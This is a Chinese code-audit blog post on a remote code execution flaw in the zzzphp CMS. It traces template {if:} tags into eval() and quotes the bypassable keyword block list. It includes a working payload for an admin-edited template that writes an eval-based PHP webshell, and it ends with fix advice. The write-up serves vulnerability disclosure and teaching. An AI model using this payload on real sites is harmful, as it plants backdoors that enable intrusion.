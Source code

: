 ```yaml
---
title: "zzzphp 远程代码执行审计"
date: 2019-08-21T22:28:44+08:00
lastmod: 2019-08-21T22:28:44+08:00
draft: false
tags: ['code']
categories: ['code']
comment: true
---
```

又看到了cnvd中的一个有趣的洞！
<!--more-->

# zzzphp

> zzzphp是一款php语言开发的免费建站系统，以简单易上手的标签、安全的系统内核、良好的用户体验为特点，是站长建站的最佳选择。

晚上8点，做完作业发现cnvd报了一个[命令执行](https://www.cnvd.org.cn/flaw/show/CNVD-2019-21998)，本着两天不看代码看不懂的精神赶紧再来看下审计。

# 产生原因

zzzphp的模板是通过自写函数来进行解析的，过滤参数不严谨导致可以执行任意php代码。

# 漏洞分析

程序入口`index.php`引入`require 'inc/zzz_client.php';`

E:\code\php\zzzphp\inc\zzz_client.php:56

```php
 require 'zzz_template.php';
 if (conf('webmode')==0) error(conf('closeinfo'));
 $location=getlocation();
```

引入模板解析类并通过`getlocation()`使url和模板关联起来。

91行：当访问`http://127.0.0.1/search/` 时使用search模板

```php
case 'search':
	$tplfile= TPL_DIR . 'search.html'; 
```

157行

```php
$parser = new ParserTemplate();
$zcontent = $parser->parserCommom($zcontent); // 解析模板
```

实例化解析模板类，调用`parserCommom()`方法，跟进

inc/zzz_template.php

```php
public function parserCommom($zcontent)
    {
        $zcontent = $this->parserSiteLabel($zcontent); // 站点标签
        $zcontent = $this->ParseInTemplate($zcontent); // 模板标签
        $zcontent = $this->parserConfigLabel($zcontent); //配置表情
        $zcontent = $this->parserSiteLabel($zcontent); // 站点标签
        $zcontent = $this->parserCompanyLabel($zcontent); // 公司标签
        $zcontent = $this->parserUser($zcontent); //会员信息
        $zcontent = $this->parserlocation($zcontent); // 站点标签
        $zcontent = $this->parserLoopLabel($zcontent); // 循环标签		
        $zcontent = $this->parserContentLoop($zcontent); // 指定内容
        $zcontent = $this->parserbrandloop($zcontent);
        $zcontent = $this->parserGbookList($zcontent);
        $zcontent = $this->parserLabel($zcontent); // 指定内容
        $zcontent = $this->parserPicsLoop($zcontent); // 内容多图
        $zcontent = $this->parserad($zcontent);
        $zcontent = parserPlugLoop($zcontent);
        $zcontent = $this->parserOtherLabel($zcontent);
        $zcontent = $this->parserIfLabel($zcontent); // IF语句
        $zcontent = $this->parserNoLabel($zcontent);
        return $zcontent;
    }
```

可以看到这些是zzzphp模板解析，并且使用了自定义模板语句，跟进`$this->parserIfLabel()`函数

```php
public function parserIfLabel($zcontent)
{
    $pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
    if (preg_match_all($pattern, $zcontent, $matches)) {
        $count = count($matches[0]);
        for ($i = 0; $i < $count; $i++) {
            $flag = '';
            $out_html = '';
            $ifstr = $matches[1][$i];
            $ifstr = danger_key($ifstr);
            $ifstr = str_replace('=', '==', $ifstr);
            $ifstr = str_replace('<>', '!=', $ifstr);
            $ifstr = str_replace('or', '||', $ifstr);
            $ifstr = str_replace('and', '&&', $ifstr);
            $ifstr = str_replace('mod', '%', $ifstr);
            //echop( $ifstr);
            @eval('if(' . $ifstr . '){$flag="if";}else{$flag="else";}');
            ... 省略
            return $zcontent;
        }
    }
}
```

看到了eval函数，并且有变量`$ifstr`，如果它可控，那么我们就可以执行任意代码。

看下他是怎么过滤的，`preg_match_all`匹配正则，要满足以下格式

```php
{if:条件}
代码
{end if}
```

然后经过一个`danger_key()`函数，跟进

inc/zzz_main.php

```php
function danger_key( $s , $len=255) {
    $danger=array('php','preg','server','chr','decode','html','md5','post','get','cookie','session','sql','del','encrypt','upload','db','$','system','exec','shell','popen','eval');   
    $s = str_ireplace($danger,"*",$s);
    return $s;
}
```

可以看到使用`str_ireplace()`替换了危险关键字，不过只是替换了一次，可以双写绕过。

到目前为止，整个漏洞的构造链已经很清晰了。

修改模板 -> 构造恶意if语句块 -> 访问 `http://localhost/search/`触发代码执行

# exp构造

- 问题一：上文提到了可以用双写绕过，但是关键字会被替换成一个`*`，我们可以重新用str_replace替换回来

- 问题二：`$`被替换，没办法用双写绕过，我们用`get_defined_vars()`来构造，参考 [PHP利用Apache、Nginx的特性实现免杀Webshell](https://y4er.com/post/apache-nginx-webshell/)

放一个我的构造的exp

后台 - 模板管理 - 修改search.html，添加一行

```php
{if:1)file_put_contents(str_replace('*','','Y4er.pphphp'),str_replace('*','','<?pphphp evevalal(ggetet_defined_vars()[_PPOSTOST][1]);'));//}{end if}
```

然后访问`http://localhost/search/` 然后会在 `http://localhost/search/Y4er.php`

# 修复建议

使用`preg_replace`过滤关键字而不是`str_ireplace()`，严格控制用户输入。

# 写在文后

需要登录后台，算是比较鸡肋，不过cnvd还爆了这个版本的注入，有兴趣的师傅可以看一下。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**
